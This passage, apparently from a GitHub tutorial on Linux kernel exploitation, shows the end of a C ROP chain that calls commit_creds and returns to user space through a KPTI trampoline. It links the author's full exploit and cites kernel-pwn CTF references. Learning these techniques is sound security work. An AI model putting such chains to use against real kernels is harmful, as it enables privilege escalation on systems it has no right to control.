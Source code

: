 ```c
    ROP[idx++] = 0;
    ROP[idx++] = mov_rdi_rax;
    ROP[idx++] = commit_creds;
    ROP[idx++] = kpti_trampoline_chain;
    ROP[idx++] = 0;           // [rdi+0x0]
    ROP[idx++] = 0;           // [rdi+0x8]
    ROP[idx++] = user_rip;    // [rdi+0x10]
    ROP[idx++] = user_cs;     // [rdi+0x18]
    ROP[idx++] = user_rflags; // [rdi+0x20]
    ROP[idx++] = user_rsp;    // [rdi+0x28]
    ROP[idx++] = user_ss;     // [rdi+0x30]
```

Here is my full [exploit code](./kpti/exploit_kpti_trampoline.c) for this technique.

## References

- https://www.felixcloutier.com/x86/iret:iretd:iretq
- https://www.felixcloutier.com/x86/sysret
- https://blog.wohin.me/posts/linux-kernel-pwn-01/
- https://0x434b.dev/dabbling-with-linux-kernel-exploitation-ctf-challenges-to-learn-the-ROPes/
- https://breaking-bits.gitbook.io/breaking-bits/exploit-development/linux-kernel-exploit-development
